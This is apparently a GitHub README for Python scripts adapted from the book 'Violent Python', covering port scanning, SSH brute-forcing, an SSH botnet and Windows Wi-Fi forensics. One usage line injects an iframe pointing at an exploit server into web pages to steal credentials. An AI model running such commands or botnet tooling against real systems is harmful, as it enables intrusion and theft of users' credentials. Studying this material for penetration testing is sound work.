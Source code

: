 # Digital-Forensic-Analytics  
Forensic Investigation, Network Traffic Analysis, Penetration Testing, Antivirus Evasion, Web recon


These codes are almost similar to book: "Violent Python: A Cookbook for Hackers, Forensic Analysts, Penetration Testers and Security Engineers" book by TJ. O’Connor.  

## Operating System

I Use virtualbox to setup a Ubuntu 18.04 LTS linux box to run these on
The actual i have is Kali Linux 64 Bit 2018.2
Window7 for few scripts


# Penetration Testing  
## PortScan.py  

In the command Line pass the port argument as a string i.e in " " for multiple port like follow;  
taymour:∼# python portScan.py -H 10.50.60.125 -p "21, 1720"  
  
## Nmap_Port_Scanner.py
Scan the ports on the provided hosts.

## D) SSH_Botnet.py
Issue commands on ssh hosts at once provided you have the user names and passwords.

## E) sshBrute.py
Brute forces a host's ssh server with a provided worldlist

## H) botNet.py
Change IP, Root, Password to issue SSH commands on compromised machines.

## I) anonLogin.py  
First you have to allow /etc/vsftpd.conf file to enable anon_login to yes or uncomment it  

## L) massCompromise.py  
In command line following options are required to attack web pages and inject your own html file to steal compromised user credentials in default location  
Usage from terminal      
taymour# python massCompromise.py -H 192.168.95.179 -r '<iframe src="  
http://10.10.10.112:8080/exploit"></iframe>' -f userpass.txt  

## M) discoverNetworks.py    
Allow to analyse connected wifi through mac adress by reading windows registry  
Usage from command prompt    
(py27) C:\Users\Taymour> python discoverNetworks.py -u <username> -p <password>  

